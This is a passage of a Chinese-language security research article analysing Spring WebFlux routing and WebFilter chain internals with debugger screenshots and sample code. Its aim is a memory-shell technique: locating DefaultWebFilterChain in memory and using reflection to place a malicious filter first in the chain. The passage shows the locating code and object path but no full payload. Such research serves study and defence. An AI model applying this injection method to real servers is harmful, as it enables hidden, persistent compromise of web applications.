可以看到这里已经拿到了`pattern`，那就还差解析`request`里面的`GET`这个方法了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002709-3ca940fe-c831-1.jpeg)

我们继续`step over`，发现直接跳到了这里，我当时就挺纳闷儿，这里的`this.left`和`this.right`怎么就已知了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002710-3d9280f2-c831-1.jpeg)

这俩变量已知说明在执行`test`之前肯定是已经被赋值了，我继续往后`step over`，从下图中可以看到，此时二者之间多了个`&&`，不难猜测，应该是调用了`org.springframework.web.reactive.function.server.RequestPredicates.AndRequestPredicate`方法，因为还有一个`OrRequestPredicate`，这个`or`的话应该就是`||`了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002712-3e723a4e-c831-1.jpeg)

于是我们再在`AndRequestPredicate`方法这打上断点，此时我们还没有访问`http://127.0.0.1:9191/hello`，就已经触发调试了，这是因为我们在`GreetingRouter.java`里面写的代码中有`GET`方法、`/hello`路由还有`and`方法，因此会调用到`AndRequestPredicate`，并把`GET`和`/hello`分别复制给`this.left`和`this.right`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002713-3f56d2e4-c831-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002714-401dcda4-c831-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002716-4112a388-c831-1.jpeg)

到这里，我们基本就了解了路由匹配这么个事情。接下来我们要考虑的事情就是如何处理请求，这个就比较简单了，为什么这么说呢？因为在我们`2.12.3`节中的分析中已经基本涉及到了。我们还是在`org.springframework.web.reactive.DispatcherHandler#invokeHandler`打下断点调试：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002718-420e5c1e-c831-1.jpeg)

可以看到，这里的`this.handlerAdapters`里面有四个`handlerAdapter`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002719-430c021a-c831-1.jpeg)

并不是所有的`handlerAdapter`都会触发`handle`方法，只有当支持我们给定的`handler`的`handlerAdapter`才可以调用：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002721-442c4c18-c831-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002723-451cba72-c831-1.jpeg)

然后我们`step into`这里的`handlerAdapter.handle`方法，发现是在`org.springframework.web.reactive.function.server.support.HandlerFunctionAdapter#handle`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002724-45fcb44c-c831-1.jpeg)

而这里的`handlerFunction.handle`也就是我们编写的`route`方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002726-470a6280-c831-1.jpeg)

到这里，关于处理请求的部分也就完结了。

### 2.12.5 Spring WebFlux 过滤器 WebFilter 运行过程分析

对于`Spring WebFlux`而言，由于没有拦截器和监听器这个概念，要想实现权限验证和访问控制的话，就得使用`Filter`，关于这一部分知识可以参考 Spring 的官方文档：

> [https://docs.spring.io/spring-security/reference/reactive/configuration/webflux.html](https://docs.spring.io/spring-security/reference/reactive/configuration/webflux.html)

而在`Spring Webflux`中，存在两种类型的过滤器：一个是`WebFilter`，实现自`org.springframework.web.server.WebFilter`接口。通过实现这个接口，可以定义全局的过滤器，它可以在请求被路由到`handler`之前或者之后执行一些逻辑；另一个就是`HandlerFilterFunction`，它是一种函数式编程的过滤器类型，实现自`org.springframework.web.reactive.function.server.HandlerFilterFunction`接口，与`WebFilter`相比它更加注重函数式编程的风格，可以用于处理基于路由的过滤逻辑。

这里我们以`WebFilter`为例，看看它的运行过程。新建一个`GreetingFilter.java`，代码如下：

```plain
package org.example.webfluxmemoryshelldemo.hello;

import org.springframework.http.server.reactive.ServerHttpRequest;
import org.springframework.stereotype.Component;
import org.springframework.web.server.ServerWebExchange;
import org.springframework.web.server.WebFilter;
import org.springframework.web.server.WebFilterChain;
import org.springframework.web.util.pattern.PathPattern;
import org.springframework.web.util.pattern.PathPatternParser;
import reactor.core.publisher.Mono;

@Component
public class GreetingFilter implements WebFilter {
    @Override
    public Mono<Void> filter(ServerWebExchange serverWebExchange, WebFilterChain webFilterChain) {
        PathPattern pattern=new PathPatternParser().parse("/hello/**");
        ServerHttpRequest request=serverWebExchange.getRequest();
        if (pattern.matches(request.getPath().pathWithinApplication())){
            System.out.println("hello, this is our filter!");
        }
        return webFilterChain.filter(serverWebExchange);
    }
}
```

效果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002727-47c82c34-c831-1.jpeg)

我们直接在`filter`函数这里下断点，进行调试：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002729-48bd1c58-c831-1.jpeg)

注意到`return`中调用了`filter`函数，于是`step into`看看：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002731-49c10fce-c831-1.jpeg)

可以看到是调用了`invokeFilter`函数。我们仔细看看这个`DefaultWebFilterChain`类：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002732-4ac82b78-c831-1.jpeg)

可以看到是有三个名为`DefaultWebFilterChain`的函数，其中第一个是公共构造函数，第二个是私有构造函数（用来创建`chain`的中间节点），第三个是已经过时的构造函数。而在该类的注释中，有这样一句话：

> Each instance of this class represents one link in the chain. The public constructor DefaultWebFilterChain(WebHandler, List) initializes the full chain and represents its first link.
> 
> [](https://xzfile.aliyuncs.com/media/upload/picture/20240211002734-4bb36796-c831-1.jpeg)

也就是说，通过调用 `DefaultWebFilterChain` 类的公共构造函数，我们初始化了一个完整的过滤器链，其中的每个实例都代表链中的一个`link`，而不是一个`chain`，这就意味着我们无法通过修改下图中的`chain.allFilters`来实现新增`Filter`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002736-4cd1116e-c831-1.jpeg)

但是这个类里面有个`initChain`方法用来初始化过滤器链，这个方法里面调用的是这个私有构造方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002738-4dd87ec6-c831-1.jpeg)

那我们就看看这个公共构造方法是在哪里调用的：

光标移至该方法，按两下`Ctrl+Alt+F7`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002740-4f11b794-c831-1.jpeg)

调用的地方位于`org.springframework.web.server.handler.FilteringWebHandler#FilteringWebHandler`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002741-501086b6-c831-1.jpeg)

那思路就来了，我们只需要构造一个`DefaultWebFilterChain`对象，，然后把它通过反射写入到`FilteringWebHandler`类对象的`chain`属性中就可以了。

那现在就剩下传入`handler`和`filters`这两个参数了，这个`handler`参数很好搞，就在`chain`里面：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002743-511e51a0-c831-1.jpeg)

然后这个`filters`的话，我们可以先获取到它本来的`filters`，然后把我们自己写的恶意`filter`放进去，放到第一位，就可以了。

那现在就是从内存中找到`DefaultWebFilterChain`的位置，然后一步步反射就行。这里直接使用工具`https://github.com/c0ny1/java-object-searcher`，克隆下来该项目，放到`idea`中`mvn clean install`：

[](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image/image-20240126134339217.png)

然后把生成的这个`java-object-searcher-0.1.0.jar`放到我们的`WebFluxMemoryShellDemo`项目的 Project `Structure`中的`Libraries`中：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002745-52325d5c-c831-1.jpeg)

然后我们把我们的`GreetingFilter.java`的代码修改成下面的：

```plain
package org.example.webfluxmemoryshelldemo.hello;

import org.springframework.http.server.reactive.ServerHttpRequest;
import org.springframework.stereotype.Component;
import org.springframework.web.server.ServerWebExchange;
import org.springframework.web.server.WebFilter;
import org.springframework.web.server.WebFilterChain;
import org.springframework.web.util.pattern.PathPattern;
import org.springframework.web.util.pattern.PathPatternParser;
import reactor.core.publisher.Mono;

import me.gv7.tools.josearcher.entity.Blacklist;
import me.gv7.tools.josearcher.entity.Keyword;
import me.gv7.tools.josearcher.searcher.SearchRequstByBFS;
import java.util.ArrayList;
import java.util.List;

@Component
public class GreetingFilter implements WebFilter {
    @Override
    public Mono<Void> filter(ServerWebExchange serverWebExchange, WebFilterChain webFilterChain) {
        PathPattern pattern=new PathPatternParser().parse("/hello/**");
        ServerHttpRequest request=serverWebExchange.getRequest();
        if (pattern.matches(request.getPath().pathWithinApplication())){
            System.out.println("hello, this is our GreetingFilter!");
        }
        List<Keyword> keys = new ArrayList<>();
        keys.add(new Keyword.Builder().setField_type("DefaultWebFilterChain").build());
        List<Blacklist> blacklists = new ArrayList<>();
        blacklists.add(new Blacklist.Builder().setField_type("java.io.File").build());
        SearchRequstByBFS searcher = new SearchRequstByBFS(Thread.currentThread(),keys);
        searcher.setBlacklists(blacklists);
        searcher.setIs_debug(true);
        searcher.setMax_search_depth(10);
        searcher.setReport_save_path("D:\\javaSecEnv\\apache-tomcat-9.0.85\\bin");
        searcher.searchObject();
        return webFilterChain.filter(serverWebExchange);
    }
}
```

这里我们设置的关键字是`DefaultWebFilterChain`，然后直接运行：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002746-5310a026-c831-1.jpeg)

也就是说，位置是在：

```plain
TargetObject = {reactor.netty.resources.DefaultLoopResources$EventLoop} 
  ---> group = {java.lang.ThreadGroup} 
   ---> threads = {class [Ljava.lang.Thread;} 
    ---> [3] = {org.springframework.boot.web.embedded.netty.NettyWebServer$1} 
     ---> this$0 = {org.springframework.boot.web.embedded.netty.NettyWebServer} 
      ---> handler = {org.springframework.http.server.reactive.ReactorHttpHandlerAdapter} 
       ---> httpHandler = {org.springframework.boot.web.reactive.context.WebServerManager$DelayedInitializationHttpHandler} 
        ---> delegate = {org.springframework.web.server.adapter.HttpWebHandlerAdapter} 
         ---> delegate = {org.springframework.web.server.handler.ExceptionHandlingWebHandler} 
           ---> delegate = {org.springframework.web.server.handler.FilteringWebHandler} 
            ---> chain = {org.springframework.web.server.handler.DefaultWebFilterChain}
```
